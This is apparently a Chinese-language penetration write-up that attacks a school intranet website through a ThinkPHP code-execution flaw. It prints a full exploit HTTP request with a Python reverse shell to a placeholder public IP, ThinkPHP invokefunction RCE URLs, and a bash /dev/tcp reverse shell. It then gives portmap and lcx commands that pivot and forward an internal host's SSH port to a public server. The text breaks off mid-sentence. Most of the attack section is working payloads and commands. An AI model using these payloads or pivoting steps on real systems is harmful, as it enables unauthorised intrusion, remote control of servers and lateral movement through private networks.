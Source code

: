 # 记一次简单的渗透
> 目标：学校内网中某存在tp代码执行漏洞的网站

## 大致过程

获取网站的相关信息 `whatweb -v http://123.123.123.123`
发现是tp网站

测试老版本的命令执行，这里用了一个python弹shell的方法
```
POST /index.php/module/action/paraml/${@eval(system($_POST[id]))} HTTP/1.1
Host: 123.123.123.123
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://123.123.123.123/index.php/Public/login
Content-Length: 251
Cookie: PHPSESSID=5luqtvskv0hs76hvl7irk7qq25; uid=0h4BjFysIcDBKBepA2zJAg==
Connection: close

id=python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('公网IP',公网端口));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" >>/tmp/ccKnfdf.c
```
```
附上新的命令执行payload
http://localhost:9096/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
http://localhost:9096/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

附上bash直接反弹shell，一开始没重定向到文件所以失败了，然后我换了python的脚本才发现是重定向的问题
bash -i >& /dev/tcp/公网IP/公网端口 0>&1
```

然后可以利用这个做跳板，进而破解内网主机的一些端口

编译portmap（或者将其再类似系统上编译好了直接传到目标机器上也可以）
将内网的某主机端口抓发到公网（其实我这个环境没必要，但是练练技术）

```
portmap --help
bkbll的套接字数据传输工具（bkbll@cnhonker.net）
用法：./portmap -m method [-h1 host1] -p1 port1 [-h2 host2] -p2 port2 [-v] [-log filename]
 -v：version
 -h1：host1 
 -h2：host2 
 -p1：port1 
 -p2：port2 
 -log：记录数据
 -m：此工具的操作方法
    1：侦听PORT1并连接到HOST2：PORT2 #将内网中的h2的p2转发到处于内网的本机的p1端口
    2：侦听PORT1和PORT2 #本地端口转发
    3：连接到HOST1：PORT1和HOST2：PORT2  #将内网中的h2的p2端口转发到公网
让我退出......全部超过

E:\Desktop>lcx.exe --help
第一条和第三配合使用。如在本机上监听 -listen 51 3389，在肉鸡上运行-slave 本机ip 51 肉鸡ip 3389
那么在本地连127.0.1就可以连肉鸡的3389.第二条是本机转向。如-tran 51 127.0.0.1 3389 ==========

[Usage of Packet Transmit:]
  lcx.exe -<listen|tran|slave> <option> [-log logfile]

[option:]
  -listen <ConnectPort> <TransmitPort>
  -tran   <ConnectPort> <TransmitHost> <TransmitPort>
  -slave  <ConnectHost> <ConnectPort> <TransmitHost> <TransmitPort>
# lcx命令类似 顺序不相同
```
目标机上的抓发命令`./portmap -m 3 -h1 公网IP -p1 公网端口 -h2 123.123.123.124 -p2 22`
公网服务器上进行接收`./portmap -m 2 -p1 6666 -p2 443`

此时连接ssh root@45.76.101.190 -p 443 就是相当于